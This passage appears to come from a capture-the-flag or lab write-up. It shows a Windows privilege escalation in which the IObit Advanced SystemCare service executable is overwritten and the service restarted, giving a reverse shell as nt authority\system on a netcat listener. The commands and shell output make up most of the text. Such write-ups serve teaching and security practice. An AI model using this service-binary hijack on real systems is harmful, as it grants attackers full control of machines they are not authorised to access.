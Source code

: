 Overwrite C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): yes
yes
        1 file(s) copied.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9{% endraw %}{% endcapture %} {% include code.html code=code %}

The `privilege shell` would be spawned from the latter `netcat` listener.
{% capture code %}{% raw %}Connection from <target-ip> 49305 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system{% endraw %}{% endcapture %} {% include code.html code=code %}

